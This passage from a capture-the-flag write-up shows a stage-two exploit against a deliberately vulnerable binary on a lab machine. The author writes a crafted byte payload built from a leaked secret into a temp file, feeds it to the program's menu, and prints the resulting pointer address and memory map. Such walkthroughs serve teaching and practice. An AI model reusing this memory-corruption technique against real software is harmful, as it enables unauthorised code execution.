             -----MENU-----
    1) leave message to admin
    2) print session ID
    3)login (admin only)
    4)change user
    5)exit
    
     action:
    

Now I’ll use that leaked secret to write stage 2:

    
    
    xalvas@calamity:~$ echo -en "\x6d\x61\x09\x01AAAA\xf4\x2f\x00\x80" > /tmp/0xdf
    

I’ll continue:

    
    
     action: 4
    
    Filename:  /tmp/0xdf
    
    
            -----MENU-----
    1) leave message to admin
    2) print session ID
    3)login (admin only)
    4)change user
    5)exit
    
     action: 3
    
    this function is problematic on purpose
    
    I'm trying to test some things...and that means get control of the program! 
    vulnerable pointer is at bffff5c0
    memory information on this binary:
    
    80000000-80002000 r-xp 00000000 08:01 404837     /home/xalvas/app/goodluck
    80002000-80003000 r--p 00001000 08:01 404837     /home/xalvas/app/goodluck
    80003000-80004000 rw-p 00002000 08:01 404837     /home/xalvas/app/goodluck
    80004000-80025000 rw-p 00000000 00:00 0          [heap]
    b7e1a000-b7e54000 r-xp 00000000 08:01 142037     /lib/i386-linux-gnu/libc-2.23.so
    b7e54000-b7e55000 r--p 0003a000 08:01 142037     /lib/i386-linux-gnu/libc-2.23.so
    b7e55000-b7fca000 r-xp 0003b000 08:01 142037     /lib/i386-linux-gnu/libc-2.23.so
    b7fca000-b7fcc000 r--p 001af000 08:01 142037     /lib/i386-linux-gnu/libc-2.23.so
    b7fcc000-b7fcd000 rw-p 001b1000 08:01 142037     /lib/i386-linux-gnu/libc-2.23.so
    b7fcd000-b7fd0000 rw-p 00000000 00:00 0 
    b7fd6000-b7fd8000 rw-p 00000000 00:00 0 
    b7fd8000-b7fda000 r--p 00000000 00:00 0          [vvar]
    b7fda000-b7fdb000 r-xp 00000000 00:00 0          [vdso]
    b7fdb000-b7ffd000 r-xp 00000000 08:01 142016     /lib/i386-linux-gnu/ld-2.23.so
    b7ffd000-b7ffe000 rw-p 00000000 00:00 0 
    b7ffe000-b7fff000 r--p 00022000 08:01 142016     /lib/i386-linux-gnu/ld-2.23.so
    b7fff000-b8000000 rw-p 00023000 08:01 142016     /lib/i386-linux-gnu/ld-2.23.so
    bfedf000-c0000000 rw-p 00000000 00:00 0          [stack]
    